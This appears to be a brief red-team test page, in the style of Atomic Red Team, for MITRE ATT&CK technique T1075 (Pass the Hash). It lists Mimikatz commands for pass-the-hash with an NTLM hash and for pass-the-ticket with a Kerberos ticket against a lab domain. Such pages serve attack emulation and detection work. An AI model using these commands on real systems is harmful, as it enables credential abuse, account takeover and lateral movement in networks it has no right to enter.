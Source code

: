 ## Pass the Hash

MITRE ATT&CK Technique: [T1075](https://attack.mitre.org/wiki/Technique/T1075)

#### Mimikatz

Note: must dump hashes first

`mimikatz # sekurlsa::pth /user:Administrator /domain:atomic.local /ntlm:cc36cf7a8514893efccd3324464tkg1a`

[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

#### Kerberos Ticket attack

`mimikatz # kerberos::ptt Administrator@krbtgt-atomic.LOCAL.kirbi`
